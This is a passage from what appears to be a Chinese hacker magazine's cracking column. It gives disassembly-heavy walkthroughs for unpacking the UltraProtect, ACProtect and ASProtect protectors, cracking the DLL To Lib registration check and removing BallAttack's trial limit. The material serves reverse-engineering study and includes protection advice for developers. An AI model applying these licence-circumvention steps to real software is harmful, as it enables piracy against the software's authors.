004B8080  C1E9 02         SHR ECX,2
004B8083  83E9 02         SUB ECX,2
004B8086  83F9 00         CMP ECX,0
004B8089  7C 1A           JL SHORT 004B80A5
...
004B809F  89048E          MOV DWORD PTR [ESI+ECX*4],EAX
; 这些代码把上面的进程检查部分重新加密
004B80A2  49              DEC ECX
004B80A3  EB E1           JMP SHORT 004B8086
004B80A5  61              POPAD
004B80A7  C3              RETN
```

一旦发现当前进程名符合上述特征，则毫不犹豫地调用 `TerminateProcess` 终止它。如果该进程恰好是当前正在调试 `UProtect.exe` 的 OllyDbg，那么 UltraProtect 也就自动退出了，这就是没有任何反反调试措施的 OllyDbg 在放开跟踪 UltraProtect 时会自动关闭的原因。

上段代码是对已知进程名的显式校验，比较容易避开，而下面这段父进程校验就相对较难识别了，再次中断在 `CreateToolhelp32Snapshot` 后返回外壳代码。

```asm
004B802A  B8 951D4000     MOV EAX,<lpProcessEntry32>
004B802F  03C5            ADD EAX,EBP
004B8031  50              PUSH EAX
...
CALL [AddrProcess32Next]    ; 列举下一个进程
...
MOV EAX,[ESI+8]             ; 取得当前进程的 ID
...
CALL [AddrOpenProcess]
...
CALL [AddrTerminateProcess] ; 终止当前进程
...
CALL [AddrCloseHandle]
...
```

```asm
004B7AF2  50              PUSH EAX
004B7AF3  8B85 51204000   MOV EAX,[AddrGetCurrentProcessId]
004B7AF9  8038 CC         CMP BYTE PTR [EAX],0CC   ; 入口断点检测
004B7AFC  74 10           JE SHORT 004B7B0E
004B7AFE  90              NOP
...
004B7B03  FF95 51204000   CALL [AddrGetCurrentProcessId]
...
004B7B0E  60              PUSHAD
004B7B0F  8DBD 39204000   LEA EDI,[lpSensitiveAPIAddr]
...
CALL <GetRandDword>
STOS DWORD PTR ES:[EDI]
; 发现入口断点就随机破坏外壳 API 地址
...
004B7B24  8985 891D4000   MOV [dwProcessId],EAX
```

上面这段代码取得当前进程的 ID，为下一步获得父进程名做准备。在接下来的处理中，我们会看到 UltraProtect 对调试器断点进行了更加严格的检查，所有函数都不能在入口下普通断点了。

```asm
004B7B2A  C785 951D4000 ... MOV DWORD PTR SS:[EBP+<lpProcessEntry32>],128
004B7B34  6A 00             PUSH 0
```

```asm
004B7B36    6A 02               PUSH 2
004B7B38    50                  PUSH EAX
004B7B39    8B85 55204000       MOV EAX,DWORD PTR SS:[EBP+<AddrCreateToolhelp32Snapshot>]
004B7B3F    8038 CC             CMP BYTE PTR DS:[EAX],0CC   ; 检查入口断点
004B7B42    74 10               JE SHORT 004B7B54
...
004B7B74    BA 951D4000         MOV EDX,<lpProcessEntry32>
004B7B75    03D5                ADD EDX,EBP
004B7B77    52                  PUSH EDX
004B7B78    50                  PUSH EAX
004B7B7A    8B85 59204000       MOV EAX,DWORD PTR SS:[EBP+<AddrProcess32First>]
004B7B80    8038 CC             CMP BYTE PTR DS:[EAX],0CC   ; 检查入口断点
004B7B83    74 10               JE SHORT 004B7B95
...
004B7BA3    EB A0               JMP SHORT 004B7BAB
004B7BAD    0F84 CE010000       JE 004B7D81
```

```asm
004B7BB3    8B95 9D1D4000       MOV EDX,DWORD PTR SS:[EBP+<lpProcessEntry32>+<th32ProcessID>]
004B7BB9    3B95 891D4000       CMP EDX,DWORD PTR SS:[EBP+<dwProcessId>]   ; 是否为当前进程
004B7BBF    74 46               JE SHORT 004B7C07
...
004B7BC5    8B95 9D1D4000       MOV EAX,<lpProcessEntry32>
004B7BCA    03C5                ADD EAX,EBP
004B7BCC    50                  PUSH EAX
004B7BCD    FF95 911D4000       PUSH DWORD PTR SS:[EBP+<hSnapshot>]
004B7BD4    8B85 5D204000       MOV EAX,DWORD PTR SS:[EBP+<AddrProcess32Next>]
...
004B7C0D    8985 8D1D4000       MOV DWORD PTR SS:[EBP+<dwParentProcessId>],EAX
004B7C13    FFB5 911D4000       PUSH DWORD PTR SS:[EBP+<hSnapshot>]
004B7C1A    8B85 61204000       MOV EAX,DWORD PTR SS:[EBP+<AddrCloseHandle>]
004B7C20    8038 CC             CMP BYTE PTR DS:[EAX],0CC   ; 检查入口断点
004B7C23    74 10               JE SHORT 004B7C35
...
004B7C2A    FF95 61204000       CALL DWORD PTR SS:[EBP+<AddrCloseHandle>]
```

##### 破解专题之免壳实战

**SECRET OF CRACK**

栏目编辑 / icefire / icefire@hacker.com.cn

```asm
004B7C32 90            NOP
004B7C33 90            NOP
004B7C34 90            NOP
004B7C35 60            PUSHAD
004B7C36 8DBD39204000  LEA EDI,[EBP+<...SensitiveAPIAddr>]
004B7C3C B926000000    MOV ECX,26
004B7C41 E8...         CALL <GetRandDword>
004B7C46 AB            STOS DWORD PTR ES:[EDI]
004B7C47 ...           LOOP SHORT 004B7C41
004B7C49 61            POPAD
004B7C4A 58            POP EAX
```

```asm
004B7D5F 90            NOP
004B7D60 90            NOP
004B7D61 EB ED         JMP SHORT 004B7D50
004B7D63 BE951D4000    MOV ESI,[lpProcessEntry32]
004B7D68 03F5          ADD ESI,EBP
004B7D6A 8B46 08       MOV EAX,[ESI+8]   ; 当前进程ID
004B7D6D 50            PUSH EAX
004B7D70 6A 01         PUSH 1
004B7D72 FF95...       CALL [OpenProcess]
004B7D78 6A 00         PUSH 0
004B7D7A 50            PUSH EAX
004B7D7B FF95...       CALL [TerminateProcess]
```

以上代码通过系统进程列表取得了当前进程的父进程ID，接下来就是对父进程的合法性进行检查。列举进程的代码与上面基本相同，限于篇幅这里不再赘述，下面只给出关键校验代码流程分析。

在上面的代码中，UltraProtect 将父进程名进行求和计算，计算结果同 Explorer.exe、cmd.exe 等常见进程的计算值进行比较，如果不相等就认为正在被非法调试，并结束自身进程。避开上述反跟踪代码后，对 OllyDbg 就没有什么威胁了。直接对 CODE 区块下内存访问断点，F9 运行停在原始入口点，调用 OllyDump 插件保存为 dProtect.exe。

```asm
004B7CDA 3B95...       CMP EDX,[dwParentProcessId]
004B7CE0 7446          JE SHORT 004B7D28
004B7D28 8DB5...       LEA ESI,[lpProcessEntry32->szExeFile]
004B7D2E E8...         CALL <Capitalize>
004B7D33 803E 00       CMP BYTE PTR [ESI],0
004B7D3D EB F4         JMP SHORT 004B7D33
004B7D42 AD            LODS DWORD PTR [ESI]
004B7D48 8BD8          MOV EBX,EAX
004B7D50 AD            LODS DWORD PTR [ESI]
004B7D59 3BC3          CMP EAX,EBX
004B7D5B 7424          JE SHORT 004B7D81
...
```

```asm
00487370 55            PUSH EBP
00487371 8BEC          MOV EBP,ESP
00487376 B8...         MOV EAX,00487118
0048737B E8...         CALL 00406500
00487380 A1...         MOV EAX,[4974F0]
00487387 E8...         CALL 004470A4
0048738C 8B0D...       MOV ECX,[4972F8]
00487392 A1...         MOV EAX,[4974F0]
00487399 8B15...       MOV EDX,[47C9F8]
```

UltraProtect 在代码变形方面没有采取什么极端手段，除了两个特殊的 SDK 函数以外，用 ImportRec 就可以轻松修复。填入入口点 RVA：00087370，自动搜索得到 IAT 的 RVA：0009B13C，Size：0000067C，点击 Get Import 得到 DLL 列表如下。

```text
kernel32.dll  FThunk:0009B140  NbFunc:2  valid:YES
advapi32.dll  FThunk:0009B20C  NbFunc:3  valid:YES
oleaut32.dll  FThunk:0009B21C  NbFunc:7  valid:YES
gdi32.dll     FThunk:0009B38C  NbFunc:47 valid:YES
shell32.dll   FThunk:0009B788  NbFunc:1  valid:YES
comdlg32.dll  FThunk:0009B790  NbFunc:1  valid:YES
...
```

至此大多数函数已经成功解析，点击 Show Invalid，将没有认出的函数恢复为 MessageBoxA，单击 Fix Dump 完成初步脱壳。由于 UltraProtect 采用了 SDK 形式的 Embedded Protect 进行保护，所以如果你要激活所有功能并实现跨平台运行，还要进行 SDK 修复。这部分已经超出本文的讨论范围，限于篇幅不再讨论。

```asm
00407A5A  5A            POP EDX
00407A5B  58            POP EAX
00407A5C  E8 2BC1FFFF   CALL 00403B8C
00407A61  C3            RETN
```

值得注意的是，ACProtect 偷走了主程序入口的大部分主干代码。在这里 dump，程序是不可能运行起来的。事实上 ACProtect 的 Stolen Code 对 Delphi 程序特别照顾，一般都要偷走入口以后好几个 call 才会罢手。

##### ACProtect

ACProtect 各版本的外壳反调试代码与 UltraProtect 相比并没有太大变化，但是基于 SDK 的 Dynamic Encrypt、Embedded Protect 和 RSA Lock，加上编译器无关的 Code Replace 处理仍然十分强悍，要完整地把内部代码脱出至正常运行是十分困难的，更不用说还原为原始的可执行文件了。本文主要介绍一下 ACProtect 对输入表重定向的一些特殊处理。为了使 ImportRec 更有效地工作，笔者编写了一个还原 IAT 的辅助程序，这样无须对外壳代码做任何修改，就可以直接在原始入口点完美识别大多数的 API 函数。

```asm
00407930  FF25 E0C25F00   JMP DWORD PTR DS:[5FC2E0]
00407936  8BC0            MOV EAX,EAX
```

跟进伪 OEP 的第一个 call，来到：很明显这里是调用 API 的地方，F8 再次跟进。

```asm
006872B4  68 7B62C60D      PUSH 0DC6627B
006872B9  813424 52D74671  XOR DWORD PTR SS:[ESP],746D7D2
006872C0  C3               RETN   ; 调用 GetModuleHandleA
```

注意 006872B4，这次我们来到了 ACProtect 的外壳代码中。ACProtect 用一个随机数异或加密 API 地址，调用的时候再异或解密，然后以 ret 的方式进行调用。这样的 API 加密相对 ASProtect 等壳来说虽然幼稚多了，但是从工具恢复的难度而言，对阻碍 ImportRec 这样的静态模拟跟踪修复却相当有效。注意上面的 JMP DWORD PTR DS:[5FC2E0]，5FC2E0 就是 IAT 的一个 Entry；在数据转存窗口中上下翻页，确定 IAT 的大小。

由于考虑到兼容性问题，ACProtect 主程序并没有采用 API 随机重定向。ACProtect 本身也做了如下建议：以非函数调用指令中直接引用 API 地址的程序，需要慎用这一特性。所以我们以典型的 ACProtect 保护样本 UltraFXP v1.07 免费版（新版已更名为 FTPRush）为例，简要说明这种加密形式的修复方法。

OllyDbg 载入 Ultrafxp.exe，首先忽略所有异常；下断点 bp IsDebuggerPresent+6，F9 运行中断，按下 Alt+F9 返回到外壳代码。

```asm
00696155  C685 98FF4000 0C   MOV BYTE PTR SS:[EBP+40FF98],0C3
0069615C  FF95 ABD74000      CALL DWORD PTR SS:[EBP+AddrIsDebuggerPresent]
00696162  0BC0               OR EAX,EAX
00696164  74 1F              JE SHORT 00696185
00696166  90                 NOP
00696167  90                 NOP
00696168  90                 NOP
00696169  90                 NOP
```

接着打开 Memory Map 窗口，对 CODE 段下内存访问断点，F9 运行，直接来到伪 OEP（Original Entry Point）：

```asm
00407A30  50              PUSH EAX
00407A31  6A 00           PUSH 0
00407A33  E8 F8FFFFFF     CALL 00407930
00407A38  BA 10F15D00     MOV EDX,005DF110
00407A3D  52              PUSH EDX
00407A3E  8905 DC945F00   MOV DWORD PTR DS:[5F94DC],EAX
...
00407A55  E8 8AFFFFFE     CALL 004079E4
```

```text
IAT 上限: 005FC1B8
005FC1B8  10 70 68 00 1D 70 68 00 2A 70 68 00 ...
...
IAT 下限: 005FCAE8
```

注意 ACProtect 只对有限的几个 DLL 函数（如 kernel32.dll、user32.dll 等）进行加密，IAT 表中 68XXXXXX 的地址都是被加密的，我们的工具就是用来还原这些 API 地址的。启动 ExtractACP.exe，点击 Refresh 刷新进程列表，选中 Ultrafxp.exe，填入参数如图 1 所示，然后点击 Extract 按钮修复所有地址。

这时启动 ImportRec，选中 UltraFXP 的进程，填入伪 OEP 的 RVA：7A30，自动搜索 IAT，点击 Get Imports，就可以识别出大多数函数了：

```text
? FThunk:001FC1B8 NbFunc:36 (decimal:54) valid:NO
oleaut32.dll FThunk:001FC294 NbFunc:F (decimal:15) valid:YES
? FThunk:001FC2D4 NbFunc:15 (decimal:21) valid:NO
? FThunk:001FC32C NbFunc:65 (decimal:101) valid:NO
gdi32.dll FThunk:001FC4C4 NbFunc:62 (decimal:98) valid:YES
```


图1

注意其中有一些没有认出的 DLL，其实并不是识别失败，而是由于 SDK 函数与不同 DLL 的函数混合在一起了。这里我们还是暂时把没有识别成功的函数修复为 MessageBoxA，然后手动 Cut Thunks 分离不同的 DLL，最后可以得到一张完整的树文件 tree.txt。至此，ACProtect 的输入表得到了完美修复。

在众多的国产加密壳中，ACProtect 属于比较有特色的一款，但是其最大的难点不在于外壳的反调试，而在于借助 SDK 实现的 RSA 加密和壳中壳技术。它极尽可能地使受保护的程序和外壳更紧密地融合在一起，并与脱壳前的部分进行通信和校验。这样即使软件被脱壳，也无法轻易还原所有功能。根据笔者目前对 ACProtect v2.0 的认识，虽然作者 isco 将版本号作了大幅度跃迁，但是程序本身的保护体系还是没有太大变化，只是增加了一些完整性校验。ACProtect 还在升级，传奇仍将继续。

- 适合读者：破解爱好者、编程爱好者
- 前置知识：VC 开发经验、汇编基础

#### 巧改 DLL To Lib

文／图 林金明

由于酷爱编程，经常需要将别人写的 DLL 转换成 LIB，然后静态连接到自己的软件中。对此我比较喜欢功能强大的 DLL To Lib，当然“强大”的背后是需要付出人民币的，像我这样的穷书生哪来的钱呢？破解成了唯一的出路。

本文的目的不是倡导大家去破解软件作者的版权信息，而是分析这款软件在判断注册时候的一些不足地方，使大家以后写共享软件时能够更好地保护自己的作品。

##### 脱壳

发现是个硬壳（ASProtect 1.2），还好不算难：用 loader 加载，在弹出对话框时立即用 LordPE 将其从内存中 Dump 下来，接着修复输入表。打开 ImportREC，在“附加到一个活动进程”组合框中选 DLL To Lib 的进程，点击“自动查找 IAT”→“确定”→“获取输入表”，如图1所示。

此时 ImportREC 会自动分析并把相应的输入表函数列在“找到的输入表函数”列表框中，点击“显示无效的”会列出相应的无效指针。接着右键单击空白处，在菜单中选择“跟踪级别1（反汇编）”，至此 ImportREC 会将大部分的函数指针重建，最后只剩下一个函数指针没有解决（我是用 asprotect1.22 插件搞定的）。输入表现在修复完毕，OEP 处输入 00029316，点击“修复转储文件”，选择刚才 dump 的文件，脱壳顺利完成。

##### 破解

再次查壳，发现是用 VC 写的。在 Registration 页下随便输入了个注册码，弹出对话框，如图2所示。


图1


图2

从提示可以看出它要求重新启动程序来检验（启动检验型），打开 RegMonitor 监视，发现软件将注册码保存在“HKEY_CURRENT_USER\Software\DLL2LIB\Key”键值下。用 OllyDbg 加载，给 RegQueryValueA 下断点，按 F9 启动。此时软件正常启动了，然而并没有断下，对比后发现，启动的软件和没有用 OllyDbg 装载的相比，少……了个 Registration 页，一看便知道软件采用了反调试机制。上网下了个 HideOD 插件，做好相应的设置后，Registration 页面跳了出来，然而断点依然没有断下。难道作者跟我们玩捉迷藏？

此时再次打开 FileMonitor 从文件上入手，过了半小时还是没什么头绪。发现软件只是对“C:\windows\exe文件名.ini”读取一个 startup 键（该键的值决定软件是否显示“每日提示”对话框，如图3所示。）


图3

我至今都没有想透软件是怎么判断注册的（启动时注册表都不读，那把键值写入注册表干什么）。正当失望至极的时候，随便用 PE Explorer 看看资源，此时有了重大发现，如图4所示。


图4

比较一下程序运行时的主对话框，如图5所示。


图5

相信聪明的你已经看到区别了吧，那就是默认对话框资源的标题并没有 (Unregistered Version) 字样。软件启动时调用判断是否注册的函数（具体什么方法，目前还不清楚）。如果发现没有注册，就调用 SetWindowTextA 函数将 (Unregistered Version) 字样写入了对话框。

再次用 OllyDbg 载入，给 SetWindowTextA 下断，按 F9。此时程序断下来了，如图6所示。

按 F8 跟踪，返回到调用该函数的地方，如图7所示。往上一看，发现了熟人，那不就是 MFC 对话框向导生成的 OnInitDialog() 函数的汇编形式吗？看来判断注册的地方也必然在这上面，SendMessageA 下是用户自己加入的代码，从 SendMessageA 往下看，如图8所示。

看来“Call 00416420”就是关键的调用了，它的返回值决定了是否注册。按 Enter 进入该函数（如图9所示），你会发现该函数在许多地方都被调用了（本地调用来自 004012D0、00401CCC、00407066、00407104、00407CCB）。

至此该软件成功破解，再次打开软件，发现 Registration 页不见了。About 页如图10所示。


图6


图7


图8


图9


图10

但是注册信息里没有用户名，所以我用资源编辑器修改了一下。最后附上 VC 的 OnInitDialog，对比一下刚才的汇编代码，你会发现它们一模一样。

```cpp
BOOL CMyProcDlg::OnInitDialog()
{
    CDialog::OnInitDialog();
    // Add "About..." menu item to system menu.
    // IDM_ABOUTBOX must be in the system command range.
    ASSERT((IDM_ABOUTBOX & 0xFFF0) == IDM_ABOUTBOX);
    ASSERT(IDM_ABOUTBOX < 0xF000);
    CMenu* pSysMenu = GetSystemMenu(FALSE);
    if (pSysMenu != NULL)
    {
        CString strAboutMenu;
        strAboutMenu.LoadString(IDS_ABOUTBOX);
        if (!strAboutMenu.IsEmpty())
        {
            pSysMenu->AppendMenu(MF_SEPARATOR);
            pSysMenu->AppendMenu(MF_STRING, IDM_ABOUTBOX, strAboutMenu);
        }
    }
    // Set the icon for this dialog...
    SetIcon(m_hIcon, TRUE);
    SetIcon(m_hIcon, FALSE);
}
```

```cpp
// TODO: Add extra initialization here
// call 是否注册函数
// if(eax==false)
// {
//     SetWindowText("设置没注册标记到窗口标题");
// }
// 其它也一样，因为软件不只一次调用该函数。
return TRUE; // return TRUE unless you set the focus to a control
```

##### 总结

- 1. 本软件虽然保密方法非常好（如反调试机制、启动时并不读取注册表等），然而整个程序只有一处判断注册的函数（此函数一旦被破解，整个软件被破解），所以我们最好写多处判断注册的函数。可以用 RSA 加密算法、双函数验证等。
- 2. 在对话框资源中，我们应该把默认标题设置为没有注册字样（不应该像软件中那样：判断未注册就调用 `SetWindowTextA`，已注册就不调用）。
- 3. 提倡更多的程序员去学习逆向工程（不是为了破解软件），这样会降低自己以后写出的共享软件被破解的可能性。

Icefire：软件加密的攻与防，向来都是不对称的。软件开发者采用一切可能的手段对软件的核心功能进行保护，而 Cracker 则在茫茫的代码海洋中寻找任何可能利用的漏洞。这正如千里长堤，只要有一处漏洞，则整个防洪体系溃于一旦。

适合读者：初级破解爱好者  
前置知识：OllyDbg 使用方法

## 软件加密漏洞剖析

### ——兼谈 ASProtect 脱壳技术（上）


文／图 Redoc

在传统的加密与解密的斗争中，有很多经验性的东西都是“千里之堤，溃于蚁穴”的有力佐证。与 je/jne/jb/jnb/jmp/nop 等跳转指令相关的爆破技术、多层壳的保护等，再强悍的保护系统，只要有一处薄弱环节，就可能为 Cracker 所利用。在当今的软件行业，随着软件开发商和保护系统开发商各自形成成熟的分工市场，这一矛盾也越来越多地集中体现在外壳与软件的依赖关系上。

由于加密产品对于软件开发商的透明性，开发商往往没有足够的经验将保护系统与软件紧密结合，软件的保护往往被 Cracker 从这两者之间的联系部分切断，进而摧毁。时至今日，具有创造力的 Cracker 仍然在不断地发展出新颖的破解技术，因此加密技术的发展也一日不得松懈。

对于一个成功的 Cracker 来说，除了要突破软件的所有限制，他还要能够把解密的成本降到最低。从这个角度来说，算法分析显然是最不划算的，它是同软件开发商的一次正面交锋，解密成本直追软件本身的加密成本。本文以 BallAttack v1.06 为例，谈谈如何绕开软件的算法注册系统，从漏洞分析的角度解除软件的时间和功能限制。

BallAttack 是 Arkanoid/Breakout style 出品的一个打砖块游戏，结合传统砖块游戏特点与新鲜概念，同时增加了许多新的元素，伴有华丽的视听效果。目前这款游戏在网上还没有任何形式的注册码或破解版本，想必是算法的复杂性把不少人挡在了门外。

入注册码：一旦超过评估期限，面板上的 Start 按钮就会灰化。值得注意的是，软件的注册码是一长串 ASCII 字符，而且还必须用剪贴板一次粘入……


图1

## 如何脱壳？

在资源管理器中打开游戏的安装目录，可以发现程序共有两个可执行文件 BallAttack.exe 和 Reg.exe……为了分析这个程序，只有先脱壳了，这里我们复习一下如何脱掉 ASProtect 1.x 版本的外壳。

```asm
00401000 > 68 01E04900 PUSH Reg.0049E001
00401005   E8 01000000 CALL Reg.0040100B
0040100A   C3 RETN
...
```

使用 IsDebuggerPresent 去掉 PEB 中调试器标志，并在调试选项中调整异常忽略设置，然后运行并回到异常位置……

```asm
00D42D51 3100 XOR DWORD PTR DS:[EAX],EAX
...
00D42D8E C3 RETN
...
```

在离异常发生处最近的一个 ret 处下断点，然后 Shift+F9 断下。点击工具栏上的 M 打开 Memory Map 窗口……我们就直接中断在原始入口点了。

```asm
00401000  EB10 JMP SHORT Reg.00401012
00401002  66:623A BOUND DI,DWORD PTR DS:[EDX]
...
00401022  E8 ... CALL Reg.0046A34E
```

这实际上是 Borland C++ 早期版本的入口特征代码。用 OllyDump 插件把整个映像转储出来，命名为 dReg.exe……接下来我们要开始修复程序的输入表。

```asm
0046A34E FF25 DC724700 JMP DWORD PTR DS:[4772DC]
0046A354 FF25 E0724700 JMP DWORD PTR DS:[4772E0]
0046A37E FF25 FC724700 JMP DWORD PTR DS:[4772FC]
```

很明显，477XXX 这一排就是经过 ASProtect 重定向的 IAT 了，我们在数据转储窗口中定位到这些地方，如图2所示：


图2

在表中 00D54BF4 这类地址就是 ASProtect 外壳动态申请的重定位代码所在处……稍加整理以后可以分析出 9 个 DLL 目录（Thunk），如图3所示。只有第二个 DLL 还有部分函数没有解析出来，很明显这个 DLL 就是 kernel32.dll 了……

```text
advapi32.dll rThunk:000775E0 ...
?
version.dll rThunk:000773E8 ...
comctl32.dll rThunk:0007745C ...
shell32.dll rThunk:000726F8 ...
user32.dll rThunk:00077999 ...
ole32.dll rThunk:00075620 ...
oleaut32.dll rThunk:000776E8 ...
```


图3

值代表什么呢？打开 Windows 的任务管理器看看，如图5所示。

图5

Show Invalid，首先看到的是这个 IAT：`rva:000772A4 ptr:00D413F8`。在 OllyDbg 中转到这个位置，发现代码如下：

```asm
00D413F8 55 PUSH EBP
00D413F9 8BEC MOV EBP,ESP
00D413FB 5D POP EBP
00D413FC C2 0400 RETN 4
00D413FF 90 NOP
```

此函数什么也没做，输入参数只有一个，也没有返回值。根据经验，这是 ASProtect 特殊处理过的函数之一 FreeResource 了。根据 MSDN 说明，该函数在 32 位 Windows 中没有实际作用。

`rva:000772B0 ptr:00D413D0`

```asm
00D413D0 6A00 PUSH 0
00D413D2 E8... CALL 00D35158
JMP to kernel32.GetModuleHandleA
00D413D7 FF35... PUSH DWORD PTR DS:[D46CE8]
00D413DD 58 POP EAX
00D413DE 8B05... MOV EAX,DWORD PTR DS:[D46CF8]
00D413E4 C3 RETN
00D413E5 C3 RETN
```

不要被 00D413D2 处对 GetModuleHandleA 的调用所迷惑，这段代码最后的返回值来自 D46CF8 这个地址。再次 Dump 这个地址，如图4所示。


图4

这下清楚了，模拟代码返回的是一个指向命令行参数的指针，对应的 API 也就是 GetCommandLineA。

`rva:000772B4 ptr:00D413C0`

```asm
00D413C0 55 PUSH EBP
00D413C1 8BEC MOV EBP,ESP
00D413C3 E8... CALL 00D35170
JMP to kernel32.GetVersion
00D413C8 A1... MOV EAX,DWORD PTR DS:[D46CF4]
00D413CD 5D POP EBP
```

相同的伎俩，调用 GetVersion 只是一个幌子，D46CF4 保存了模拟函数的真正返回值：000005DC。

注意 reg.exe 的 PID——1500，用计算器换算一下，其 16 进制值恰好为 5DC！毋庸置疑，它就是 GetCurrentProcessId。

`rva:000772DC ptr:00D41360`

```asm
00D41360 55 PUSH EBP
00D41363 8B45 08 MOV EAX,DWORD PTR SS:[EBP+8]
00D41366 85C0 TEST EAX,EAX
00D41368 75 13 JNZ SHORT 00D4137D
00D4136A 813D ... CMP DWORD PTR DS:[...],400000
00D41374 75 07 JNZ SHORT 00D4137D
00D41376 A1 ... MOV EAX,DWORD PTR DS:[...]
00D4137E E8 ... CALL 00D35158
JMP to kernel32.GetModuleHandleA
00D41383 5D POP EBP
```

当传入参数为 NULL 时，这段代码直接返回 400000（程序装入基址），否则调用 GetModuleHandleA。很明显这是 GetModuleHandleA 的行为。

`rva:000772E4 ptr:00D40EF0`

```asm
00D40EF0 55 PUSH EBP
00D40EF1 8BEC MOV EBP,ESP
00D40EF3 8B55 0C MOV EDX,DWORD PTR SS:[EBP+C]
00D40EF6 8B45 08 MOV EAX,DWORD PTR SS:[EBP+8]
00D40EF9 8B0D ... MOV ECX,DWORD PTR DS:[D4543C]
00D40EFF 8B09 MOV ECX,DWORD PTR DS:[ECX]
00D40F01 3BC8 CMP ECX,EAX
00D40F03 75 09 JNZ SHORT 00D40F0E
00D40F05 8B0495 ... MOV EAX,DWORD PTR DS:[EDX*4+D45350]
00D40F0C EB 07 JMP SHORT 00D40F15
00D40F10 E8 ... CALL 00D35160
JMP to kernel32.GetProcAddress
00D40F15 5D POP EBP
00D40F16 C2 0800 RETN 8
```

观察 Dump 窗口，D4543C 处保存的值为 D45314，再次 Dump，得到 0FFFFFFFF。如果参数1不等于 0FFFFFFF 则调用 GetProcAddress，否则以参数2为索引从 D45350 处取得一个值调用 GetProcAddress。无论如何，这段代码的返回值等于 GetProcAddress 的返回值，所以它模仿的也就是 GetProcAddress 函数了。

RVA:00077304 off:00D41388

该处的反汇编代码如下：

```asm
00D41388  6A 00                PUSH 0
00D4138A  E8 C93DFFFF          CALL 00D35158
00D4138F  FF35 E86CD400        PUSH DWORD PTR DS:[D46CE8]
00D41395  58                   POP EAX
00D41396  C3                   RETN
```

我们还是观察 D46CE8 处的值：08930005。这个函数的输入参数个数为 0，返回一个 Dword 值，但却不指向任何有效的内存区域。根据经验，此返回值实际上是 GetVersion 返回的操作系统代码。

RVA:00077558 off:00D413E8

这是最后一个没有识别的 IAT 了：

```asm
00D413E8  55                   PUSH EBP
00D413E9  8BEC                 MOV EBP,ESP
00D413EB  8B05 F86CD400        MOV EAX,DWORD PTR DS:[D46CF8]
00D413F1  8B45 08              MOV EAX,DWORD PTR SS:[EBP+8]
00D413F4  5D                   POP EBP
00D413F5  C2 0400              RETN 4
```

这段代码还是什么也没做，直接返回输入参数。根据以往的经验，我们直接判断它就是 LockResource，请看 MSDN 对它的返回值描述。

> 如果加载的资源成功锁定，函数的返回值是指向资源的第一个字节的指针，否则返回 NULL。

LockResource 唯一的输入参数名义上是资源的句柄，其实就是指向资源数据的指针。

现在我们再次点击 Show Invalid，所有的输入函数都已经修复了，而刚才没有识别的 kernel32.dll 也已经正确识别了：

```text
advapi32.dll FThunk:000770E0 NbFunc:5 (decimal:5) valid:YES
kernel32.dll FThunk:00077268 NbFunc:5B (decimal:91) valid:YES
```

点击 Fix Dump，选择我们刚才转储下来的 exe 映像文件，ImportRec 提示 dReg_.exe 保存成功。

启动 dReg_.exe 文件，一切正常，只不过评估剩余日期变成 0 了。看来作者在这个注册系统中还设有文件校验。不管它，壳已经脱了，分析也方便多了，下面我们开始着手解除游戏的日期限制。

##### 如何解除时间限制

动手之前，我们先观察一下脱壳后游戏的启动面板，如图6所示。


如果你足够细心的话，就会发现进度条上说明文字的一个微妙不同：在未脱壳的文件上，它显示的是“xx days left”，而在脱壳后的文件上，显示的则是“xx day left”。一个字母之差，却明确地告诉我们程序代码进入了另外一个分支。下面我们就以此为线索，快速切入到时间限制的核心部分。

OllyDbg 载入脱壳后的文件 dReg_.exe，入口代码如下：

```asm
00401000  > $ /EB 10          JMP SHORT dReg_.00401012
00401002  66                  DB 66 ; CHAR 'f'
00401003  62                  DB 62 ; CHAR 'b'
...
00401020  6A 00               PUSH 0
00401022  E8 27930600         CALL <JMP.&kernel32.GetModuleHandleA>
```

在右键菜单中选择 Search for -> All referenced text strings，找到这里：

```asm
00401909  MOV EDX,dReg_.0046B425 ; Text string=ASCII " days left"
00401987  MOV EDX,dReg_.0046B430 ; Text string=ASCII " day left"
```

双击后来到这里：

```asm
00401871  66:C745 CC 08      MOV WORD PTR SS:[EBP-34],8
0040187D  66:C745 CC 14      MOV WORD PTR SS:[EBP-34],14
00401883  E8 34AC0500        CALL dReg_.0045C4BC
00401888  85C0               TEST EAX,EAX
00401892  33C0               XOR EAX,EAX
```

```asm
004018E1  E8 47540600      CALL dReg_00466D2D
004018E6  837D B4 01       CMP DWORD PTR SS:[EBP-4C],1
004018EA  7E 7E            JLE SHORT dReg_0040196A
004018EC  66:C745 CC 38    MOV WORD PTR SS:[EBP-34],38
...
0040196A  66:C745 CC 44    MOV WORD PTR SS:[EBP-34],44
...
0040197E  E8 85590500      CALL dReg_00457308
...
00401994  FF45 D8          INC DWORD PTR SS:[EBP-28]

含多处注释：
- -->[EBP-4C]中保存着剩余评估天数
- -->将剩余评估天数转换为数字字符串
- ASCII "days left" / ASCII "day left"
```

激活了 Start 按钮，就意味着我们可以深入寻访 Reg.exe 是如何调用游戏主程序 BallAttack 了。先修改 `config.cfg` 第一行为 `FullScreen=0`，以窗口模式运行便于调试。该设置为隐藏设置，游戏界面中无法直接更改。在 `004018E6` 处设下断点并重新运行 dReg__.exe，程序中断在对应位置。

```asm
004018E1  E8 47540600      CALL dReg_00466D2D
004018E6  837D B4 01       CMP DWORD PTR SS:[EBP-4C],1   --> 断在这里
; 为了避免越界，直接把 [EBP-4C] 的值改为 100
004018EA  7E 7E            JLE SHORT dReg_0040196A
004018EC  66:C745 CC 38    MOV WORD PTR SS:[EBP-34],38
004018F2  33D2             XOR EDX,EDX
```

经过修改以后 F9 运行，Start 按钮已经激活，同时在进度条上显示 `256 days left`。按下 Start 按钮，游戏主程序成功启动。至此可认为时间限制已解除，但还可以进一步避免该启动面板出现。

图7

在 Windows 操作系统中，一个进程启动另一个进程常见有三种方式：`CreateProcess`、`ShellExecute(Ex)`、`WinExec`。此游戏采用第一种方式 CreateProcess，其函数原型如下。

```c
BOOL CreateProcess(
  LPCTSTR lpApplicationName,
  LPTSTR lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL bInheritHandles,
  DWORD dwCreationFlags,
  LPVOID lpEnvironment,
  LPCTSTR lpCurrentDirectory,
  LPSTARTUPINFO lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
```

上述代码分析表明，只要在 `004018EA` 处强迫不跳，Start 按钮即可被激活；但直接修改标志位或指令码并不彻底。后续将采用更“温柔”的方法让程序按我们的意愿运行。

